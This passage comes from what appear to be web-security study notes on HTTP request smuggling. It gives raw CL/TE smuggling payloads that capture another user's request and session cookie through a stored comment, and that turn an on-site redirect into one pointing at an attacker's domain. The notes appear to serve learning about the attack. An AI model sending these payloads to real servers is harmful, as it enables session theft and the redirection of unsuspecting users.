 - to perform HTTP request smuggling to the data storage request to the back-end server

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

- when another user's request is processed by the back-end server, it will be appended to the smuggled request, with the result that the user's request gets stored including victim user's session cookie and any other sensitive data

### Turn an on-site redirect into an open redirect

- default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash

```
GET /home HTTP/1.1
Host: normal-website.com
====
HTTP/1.1 301 Move Permanently
Location: https://normal-website.com/home/
```

- with request smuggling attack to redirect other users to an external domain
- eg

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

- the smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server

